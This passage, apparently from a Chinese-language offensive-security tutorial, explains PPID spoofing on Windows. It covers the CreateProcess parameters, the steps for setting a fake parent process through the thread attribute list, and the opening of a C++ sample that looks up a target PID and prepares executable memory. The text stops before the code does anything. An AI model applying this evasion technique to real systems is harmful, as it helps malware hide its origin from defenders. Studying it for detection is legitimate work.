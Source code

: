 - `lpApplicationName`：可执行文件的名称。如果此参数为 NULL，则命令行参数在括号中指定的程序名称会被当作可执行文件名。`lpCommandLine` 参数不应包含路径信息；当 `lpApplicationName` 参数指定可执行文件的路径时， `lpCommandLine` 参数应包含应用程序的文件名部分（如，cmd.exe）。如果命令行字符串引用了带空格的路径名，则该字符串必须用引号括起来。
- `lpCommandLine`：命令行参数字符串。命令行字符串可以包含应用程序名称、命令行参数以及任何必要的引号。在这个参数中指定的字符串被传递给正在创建的进程。如果 `lpApplicationName` 参数为空，模块名的第一个字符串将被用来指定可执行模块的名称。
- `lpProcessAttributes`：进程句柄的安全属性（一般设置为 `NULL`）。
- `lpThreadAttributes`：线程句柄的安全属性（一般设置为 `NULL`）。
- `bInheritHandles`：指定新进程是否从调用进程继承句柄。
- `dwCreationFlags`：控制进程的创建方式，例如是否为新进程创建一个新的控制台窗口，以及新进程的优先级等。
- `lpEnvironment`：指定环境块的指针。这些变量用于新进程的环境块。如果此参数为 `NULL`，则新进程使用调用进程的环境。
- `lpCurrentDirectory`：字符串指针，指定新进程的当前目录。如果此参数为空，新进程使用与调用进程相同的当前目录。
- `lpStartupInfo`：指向一个 `STARTUPINFO` 结构的指针，该结构指定了新进程的主窗口特性。
- `lpProcessInformation`：指向一个 `PROCESS_INFORMATION` 结构的指针，该结构返回新进程的标识信息。



#### 实现逻辑

以下步骤总结了执行 PPID 欺骗所需的操作。

1. `CreateProcessA`使用`EXTENDED_STARTUPINFO_PRESENT`标志调用以提供对创建的进程的进一步控制。
2. 创建的结构`STARTUPINFOEXA`包含属性列表`LPPROC_THREAD_ATTRIBUTE_LIST`。
3. `InitializeProcThreadAttributeList`被调用来初始化属性列表。该函数必须调用两次，第一次确定属性列表的大小，下一次调用执行初始化。
4. `UpdateProcThreadAttribute`用于通过设置`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`允许用户指定线程的父进程的标志来更新属性。



#### 代码示例

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <psapi.h>

// 获取目标进程pid
DWORD GetPidByName(const char * pName) {
    PROCESSENTRY32 pEntry;
    HANDLE snapshot;

    pEntry.dwSize = sizeof(PROCESSENTRY32);
    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (Process32First(snapshot, &pEntry) == TRUE) {
        while (Process32Next(snapshot, &pEntry) == TRUE) {
            if (_stricmp(pEntry.szExeFile, pName) == 0) {
                return pEntry.th32ProcessID;
            }
        }
    }
    CloseHandle(snapshot);
    return 0;
}

int main(void) {  
    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 初始化STARTUPINFOEX结构体
    STARTUPINFOEX info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;
    SIZE_T cbAttributeListSize = 0;
    PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
```